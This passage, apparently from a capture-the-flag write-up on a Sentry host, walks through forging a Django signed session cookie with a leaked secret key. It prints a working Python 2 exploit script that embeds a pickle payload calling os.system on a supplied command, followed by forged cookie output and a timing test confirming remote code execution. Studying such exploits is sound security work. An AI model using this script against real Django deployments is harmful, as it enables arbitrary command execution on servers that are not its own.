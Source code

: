     print django.core.signing.dumps(newContent,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies',compress=True)



I started by trying to convert this to python3 by replacing `cPickle`
with `pickle` and fixing the print. It worked, but the cookie didn't
work. Because serialization is different between the two, I dropped to
Python2 (it was a bit of a pain to get `pip2` to install `django`, a
solution is in a comment on [this stack overflow
post](https://stackoverflow.com/questions/64187581/e-package-python-pip-has-no-installation-candidate)).

In the Sentry panel from Firefox, I'll look into the dev tools and grab
the `sentrysid` cookie, and add it to the `cookie` variable in the
script. I'll also add the key. Running this prints a new cookie:



    oxdf@parrot$ python2 django-rce.py 'sleep 30'
    Forged cookie:
    .eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-kRwAQVKUotLkvPzszNTkwvyizMruIori0tSc7kKmUI5inNSUwsUjA0KmVuDCllCeeMTS0sy4kuLU4viM1O8WUOFkASSEpOzU_NSQpUgVuqVlmTmFOuB5PVccxMzcxyBLCeImlI9AMvDOmg:1m47Ab:qtESKz_ys02L-8eRSb5mxPZQFgA



Replacing the `sentrysid` cookie with the output and refreshing, the
page hangs for 30 seconds, and then returns an error. That's RCE.

I upgraded the script a bit to take a command from the command line and
to submit the cookie for me to save copy and pasting:



    #!/usr/bin/python2
    import django.core.signing, django.contrib.sessions.serializers
    from django.http import HttpResponse
    import cPickle
    import os
    import requests
    import sys


    cmd = sys.argv[1]

    SECRET_KEY='c7f3a64aa184b7cbb1a7cbe9cd544913'
    #Initial cookie I had on sentry when trying to reset a password
    cookie=".eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-hQyRXABhUpSi0uS8_OzM1PBWsrzi7JTU0KF4hNLSzLiS4tTi-KTEpOzU_NSQpUgxumVlmTmFOuB5PVccxMzcxyBLCeoGl4kfZkp3qylegCrOjNK:1m45xH:Zcs2GcAl2Knls_STRUkB22PKJlg"
    newContent =  django.core.signing.loads(cookie,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')                              
    class PickleRce(object):
        def __reduce__(self):
            return (os.system,(cmd,))
    newContent['testcookie'] = PickleRce()

    cookie = django.core.signing.dumps(newContent,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies',compress=True)                 
    print("Forged cookie:\n" + cookie)
